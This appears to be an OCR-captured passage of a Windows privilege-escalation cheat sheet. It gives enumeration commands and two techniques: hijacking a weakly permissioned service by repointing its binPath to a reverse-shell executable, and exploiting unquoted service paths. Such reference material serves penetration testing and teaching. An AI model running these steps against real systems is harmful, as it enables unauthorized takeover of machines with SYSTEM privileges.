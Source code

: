 * **Who am I?:** Find out your current user and privileges.
    ```powershell
    whoami /all
    ```
* **System Information:** Get OS version and architecture. This is key for finding kernel exploits.
    ```powershell
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
    ```
* **Running Processes & Services:** See what's running and under which user account.
    ```powershell
    tasklist /SVC
    net start
    ```
* **Network Configuration:** See network interfaces and listening ports.
    ```powershell
    ipconfig /all
    netstat -ano
    ```

---

#### **Weak Service Permissions**

A service is a program that runs in the background, often as the powerful `NT AUTHORITY\SYSTEM` user. If a low-privilege user can modify or restart a high-privilege service, they can hijack it.

* **Commands & Tools:**
    ```powershell
    # Check permissions with AccessChk
    accesschk.exe /accepteula -uwcqv "Users" *
    ```
* **Exploitation:**
    ```powershell
    # Reconfigure the service's executable path
    sc config VulnSvc binPath= "C:\tmp\reverse_shell.exe"
    # Restart the service
    sc stop VulnSvc
    sc start VulnSvc
    ```

---

#### **Unquoted Service Paths**

If a service path with spaces is not enclosed in quotes, Windows will try to execute paths sequentially. An attacker can place a malicious executable in a higher-level directory to be executed first.

* **Commands & Tools:**
    ```powershell
    wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v "\""
    ```
* **Exploitation:** Identify the vulnerable path: `C:\Program Files\Vulnerable App\vuln.exe`. If you have write permissions in `C:\Program Files\`, place a malicious executable named `Vulnerable.exe` in `C:\Program Files\`. Restart the service.

---